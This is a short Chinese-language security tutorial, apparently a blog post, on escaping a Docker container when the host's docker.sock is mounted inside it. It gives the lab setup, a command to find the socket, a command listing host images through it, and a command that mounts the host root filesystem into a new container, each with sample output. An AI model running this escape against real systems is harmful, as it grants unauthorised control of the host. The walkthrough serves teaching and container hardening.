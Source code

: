 ```yaml
---
title: Docker Socket 挂载逃逸
date: 2022-08-12 18:14:52
slug: docker-socket-mount-escape
tags:
  - Docker
  - Security
categories:
  - Security
  - Container

---
```


## 一、漏洞描述

在启动`docker`容器时，将宿主机`/var/run/docker.sock`文件挂载到`docker`容器中，在`docker`容器中，也可以操作宿主机的`docker`

## 二、环境搭建

```bash
docker run --rm -it -v /var/run/docker.sock:/var/run/docker.sock ubuntu:16.04 /bin/bash
```

## 三、漏洞验证

```bash
find / -name docker.sock 
```

## 四、漏洞利用

在`docker`容器中安装`docker`，利用docker.sock 访问宿主机资源

```bash
docker -H unix://var/run/docker.sock images 
```

```bash
root@99db92ade596:/# docker -H unix://var/run/docker.sock images 
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
flaskapp-no-root    latest              191c96d54d26        25 hours ago        126MB
flaskapp-root       latest              50d72e86aa68        25 hours ago        126MB
alpine              latest              7e01a0d0a1dc        3 days ago          7.34MB
busybox             latest              a416a98b71e2        3 weeks ago         4.26MB
ubuntu              18.04               f9a80a55f492        2 months ago        63.2MB
ubuntu              16.04               b6f507652425        23 months ago       135MB
python              3.9.5-slim          c71955050276        2 years ago         115MB
```

在`docker`容器中，使用命令再运行一个`docker`容器,将宿主机的根目录挂载到`ubuntu:16.04`的`test`目录中，造成`docker`逃逸

```bash
docker -H unix://var/run/docker.sock run -v /:/test -it ubuntu:16.04 /bin/bash
```

```bash
root@99db92ade596:/# docker -H unix://var/run/docker.sock run -v /:/test -it ubuntu:16.04 /bin/bash
root@a74e00c4869d:/# ls
bin   dev  home  lib64  mnt  proc  run   srv  test  usr
boot  etc  lib   media  opt  root  sbin  sys  tmp   var

```